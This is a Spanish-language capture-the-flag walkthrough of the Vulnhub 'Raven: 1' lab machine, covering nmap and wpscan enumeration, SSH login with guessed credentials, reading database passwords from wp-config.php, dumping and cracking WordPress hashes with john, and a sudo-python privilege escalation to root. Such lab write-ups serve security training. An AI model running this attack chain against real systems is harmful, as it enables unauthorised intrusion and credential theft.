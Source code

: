 # Vulnhub - Raven: 1

##### Type: boot 2 root.
##### Level: Begginer.
##### Previous knowledge: basic linux, basic mysql, basic ethical hacking skills

*Note:* Para espiar los resultados de cada acción, hacé click en la flecha y spoileate un poco :).

## Walkthrough

####  Primer flag
Una vez obtenida la IP de la máquina virtual, lo primero que hicimos es escanearla en búsqueda de servicios, ya que no tenemos ninguna información disponible sobre qué hay dentro la vm, ni cómo acceder.

<details> 
    <summary>
  Para esto podemos utilizar alguna herramienta para enumerar puertos y servicios.
    </summary>

`# nmap -sS -sV ip_vm`
</details>
</p>
<details> 
    <summary>
    Una vez enumerados los servicios, pudimos notar dos muy importantes entre ellos.
    </summary>

`ssh:22; http:80`
</details>
</p>

<details> 
    <summary>
Utilizando nuevamente la herramienta anterior corroboramos que realmente hay un sitio detrás del puerto default para el protocolo HTTP.
   </summary>

`# nmap ip_vm --script=http-title`
</details>
</p>

<details> 
  <summary>
Luego de browsear un poco por el sitio original, uno de los primeros flags se puede encontrar embebido en el HTML de una de las secciones.
  </summary>

**Dentro de `services.html`**
</details>
</p>

La manera más sencilla (pero poco práctica para sitios más grandes) es utilizando `Ctrl+U` en el browser y buscando la palabra `flag`.

<details>
  <summary>
  Allí encontraremos el primero:

  </summary>

  `flag1{b9bbcb33e11b80be759c4e844862482d}`
</details>

### Segundo flag

Dentro de una de las secciones del sitio, se encuentra Blog, que redirige a un WordPress en el path `/wordpress`. 

Al ingresar varios de los recursos que utiliza y algunas redirecciones apuntan a `raven.local`, esto no está claro si es un error del diseñador o una traba más.

<details>
  <summary>
  De todos modos existe una manera muy sencilla de evitar que eso siga sucediendo.
  </summary>

  **Agregamos la IP de la vm en /etc/hosts de la siguiente manera:**
  `ip_vm raven.local`
</details>
</p>

Una vez hecho esto, refrescamos y pudimos verlo con claridad.

<details>
  <summary>
  Por defecto, sabemos que el panel de login se encuentra en:
  </summary>

  `/wp-login.php`
</details>
</p>

<details>
  <summary>
  Probamos usuarios por defectos y no tuvimos suerte. Para obtener información sobre sitios en wordpress, como vulnerabilidades, plugins instalados, user enummeration y demás, existen algunas herramientas conocidas:
  </summary>

**Metasploit provee en auxiliaries algunos módulos de scanning particulares para WordPress, y la herramienta que nunca falla es WPScan.**

**Corriendo `wpscan --url raven.local/wordpress -e u`, se pudieron enumerar dos usuarios: `steven` y `michael`.**
</details>
</p>

<details>
  <summary>
Con los usuarios obtenidos, luego de probar diversos intentos en el login de WP, decidimos probarlos en algunos servicios, siempre comenzando con los básicos.  
  </summary>

**Otro de los servicios era ssh, probando la combinación `michael:michael` logramos obtener acceso ssh: michael@raven.local**
</details>
  </p>

<details>
  <summary>
Dentro del servidor, intentamos escalar privilegios sin éxito alguno, tampoco estaba contenido en el sudoers. Decidimos probar de ver si <code>michael</code> tenía acceso al web root del Apache que estaba hosteando el sitio.  
  </summary>
  
**Accediendo a `/var/www/` encontramos el segundo flag, comprobamos que tiene acceso de lectura/escritura sobre toda la carpeta y subdirectorios.**

`flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
</details>
</p>
Aquí intentamos hacer una escalación de privilegios, alojando un backdoor PHP en el webroot, pero el servicio corre con usuario <code>www-data</code> y al ejecutarlo obtuvimos más restricciones que con el usuario actual (michael).

 
### Tercer flag (¿y cuarto?)

<details>
  <summary>
En esta situación lo más obvio sería mirar la configuración del WordPress para entender con qué credenciales está interactuando con la base de datos.
  </summary>
  
**El archivo `wp-config.php` en sus comienzos nos brinda lo siguiente:**
`user root, password R@v3nSecurity, database wordpress.` 
</details>
</p>



<details>
  <summary>
  Utilizando estas credenciales nos loggeamos desde el intérprete a la base de datos de la siguiente manera:

  </summary>

  `mysql -u root -pR@v3nSecurity`
</details>
</p>



<details>
  <summary>
  Allí dentro, intentamos leer y escribir archivos del sistema, para reintentar una escalación de privilegios, pero el servicio de MySQL también corre bajo su propio usuario, y a simple vista no hay nada sencillo, más que hurgar en la base de datos.
  </summary>
  
**Vemos qué bases de datos hay.**
`mysql> show databases;`
**Y nos quedamos por ahora con la importante, que es wordpress, ya que tenemos la contraseña del usuario más elevado dentro de la db.**
</details>
</p>

<details>
  <summary>
  La forma más sencilla de hurgar en absolutamente toda la base de datos, más sabiendo que en este tipo de CTFs los flags contienen un patrón "grepeable" es ejecutando:
  </summary>
  
`mysqldump -uroot -pR@v3nSecurity wordpress | egrep -Hn "flag[0-4]{\w*}" --color`
</details>


<details>
  <summary>
  De esta manera aparecieron los siguientes flags:
  </summary>

  `flag3{afc01ab56b50591e7dccf93122770cd2}`
  `flag4{715dea6c055b9fe3337544932f2941ce}`  
</details>
</p>

Que por alguna razón también creemos que es un error del diseñador del ctf que el cuarto también esté allí, ya que generalmente si son modalidad boot2root, el último flag se halla obteniendo root.

#### Cuarto flag

<details>
  <summary>
  Nuevamente, cansados de probar varias cosas, recordamos que todavía no tuvimos acceso real al wordpress, más allá de que podemos modificar toda su base de datos, y tal vez nos hallamos salteado una parte importande del proceso.
  </summary>
  
  **Ingresando nuevamente a `mysql`, listamos los usuarios y contraseñas de la base de datos wordpress.**
`mysql> use wordpress;`
`mysql> select user_login,user_pass from users;`

`michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0`
`steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
</details>
</p>




<details>
  <summary>
  Una vez obtenidas los hashes de los usuarios previamente listados en el user enumeration de wpscan, los ponemos a crackear con alguna tool de preferencia.
  </summary>

  **En nuestro caso utilizamos** `john`
`john hash.txt`

**Luego de un rato brinda la contraseña `pink84` para el usuario steven.**
</details>
</p>

<details>
  <summary>
  Ingresando con steven por ssh, lo primero que hicimos fue ver si estaba en sudoers, con el comando:
  </summary>
  
`sudo -l`
</details>
</p>


<details>
  <summary>
  Efectivamente estaba permitida con privilegios de administrador la ejecución de:
  </summary>
  
`/usr/bin/python`
</details>
</p>

<details>
  <summary>
  De esta manera podemos llamar a una shell para poder manipular todo con mucha más facilidad. Esto se logra importando una librería llamada <code>pty</code>
  </summary>

```
# sudo /usr/bin/python;
>> import pty; pty.spawn("/bin/bash");
# id
uid=0(root) gid=0(root) groups=0(root)
```
</details>
</p>


Finalmente se consiguió acceso a `root`, y dentro del root folder se hallaba nuevamente el `flag4`, como es de esperarse de encontrar allí el último flag en este tipo de desafíos.


## Conclusiones

Las maneras de ser `root` según el creador son dos, y posiblemente haya maneras distintas de obtener los flags, como tal vez obteniendo acceso al `wordpress` y observando realmente donde estaba alojado el `flag3`, pero esta fue la manera en la que lo resolvimos en esta ocasión.

### Herramientas utilizadas: nmap, ssh, vi/vim, john, sudo, mysqldump, mysql